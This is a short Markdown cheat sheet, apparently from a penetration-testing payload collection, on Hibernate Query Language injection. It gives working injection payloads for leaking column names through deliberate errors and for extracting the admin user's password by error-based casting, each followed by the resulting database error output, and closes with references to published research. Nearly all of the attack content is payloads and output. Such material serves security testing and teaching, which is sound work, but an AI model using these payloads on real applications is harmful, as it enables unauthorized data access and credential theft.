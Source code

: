 # Hibernate Query Language Injection 

> Hibernate ORM (Hibernate in short) is an object-relational mapping tool for the Java programming language. It provides a framework for mapping an object-oriented domain model to a relational database. - Wikipedia

## HQL Comments

```sql
HQL does not support comments
```

## HQL List Columns

```sql
from BlogPosts
where title like '%'
  and DOESNT_EXIST=1 and ''='%' -- 
  and published = true
```

Using an unexisting column will an exception leaking several columns names.

```sql
org.hibernate.exception.SQLGrammarException: Column "DOESNT_EXIST" not found; SQL statement:
      select blogposts0_.id as id21_, blogposts0_.author as author21_, blogposts0_.promoCode as promo3_21_, blogposts0_.title as title21_, blogposts0_.published as published21_ from BlogPosts blogposts0_ where blogposts0_.title like '%' or DOESNT_EXIST='%' and blogposts0_.published=1 [42122-159]
```

## HQL Error Based

```sql
from BlogPosts
where title like '%11'
  and (select password from User where username='admin')=1
  or ''='%'
  and published = true
```

Error based on value casting.

```sql
Data conversion error converting "d41d8cd98f00b204e9800998ecf8427e"; SQL statement:
select blogposts0_.id as id18_, blogposts0_.author as author18_, blogposts0_.promotionCode as promotio3_18_, blogposts0_.title as title18_, blogposts0_.visible as visible18_ from BlogPosts blogposts0_ where blogposts0_.title like '%11' and (select user1_.password from User user1_ where user1_.username = 'admin')=1 or ''='%' and blogposts0_.published=1
```

:warning: **HQL does not support UNION queries**

## References

* [HQL for pentesters - February 12, 2014 - Philippe Arteau](https://blog.h3xstream.com/2014/02/hql-for-pentesters.html)
* [How to put a comment into HQL (Hibernate Query Language)? - Thomas Bratt](https://stackoverflow.com/questions/3196975/how-to-put-a-comment-into-hql-hibernate-query-language)
* [HQL : Hyperinsane Query Language - 04/06/2015 - Renaud Dubourguais](https://www.synacktiv.com/ressources/hql2sql_sstic_2015_en.pdf)
* [ORM2Pwn: Exploiting injections in Hibernate ORM - Nov 26, 2015 - Mikhail Egorov](https://www.slideshare.net/0ang3el/orm2pwn-exploiting-injections-in-hibernate-orm)